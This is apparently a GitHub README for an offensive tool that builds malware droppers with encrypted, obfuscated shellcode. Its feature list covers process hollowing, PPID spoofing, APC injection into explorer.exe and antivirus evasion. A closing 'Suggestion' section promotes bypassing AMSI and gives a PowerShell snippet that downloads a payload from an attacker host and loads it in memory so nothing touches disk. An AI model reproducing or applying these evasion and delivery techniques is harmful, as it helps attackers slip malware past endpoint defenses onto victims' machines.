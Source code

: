 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

## Features
### Native C++ binary
* Process Hollowing
* PPID Spoofing
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### DLL 
* Spawn as mobsync.exe
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

### .NET binary
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random function names
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code

Sharperner now supports /convert functionality which will convert native binary/PE and manually mapped into .NET executable by using @SharpSploit library. This might be useful for reflective loading (execute-assembly)

## Usage
```
/file       B64,hex,raw 
/type       cs,cpp,dll
/out        Output file Location. (Optional)
/save       Keep pre compiled code. (Optional)

/convert    File input
            (Embed native executable to .NET Assembly using Manual Mapping)

Example:
Sharperner.exe /file:file.txt /type:cs
Sharperner.exe /file:file.txt /out:payload.exe /save
Sharperner.exe /convert:file.exe
```

## Caveat
* Install .NET 3.5 if Dlllauncher project throws errors. ([Download](https://www.microsoft.com/en-us/download/details.aspx?id=21))
* Make sure to have `msbuild.exe` in place to compile projects
* Native C++ payload might not work with long shellcode. Stageless likely won't work.

## Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```

## References

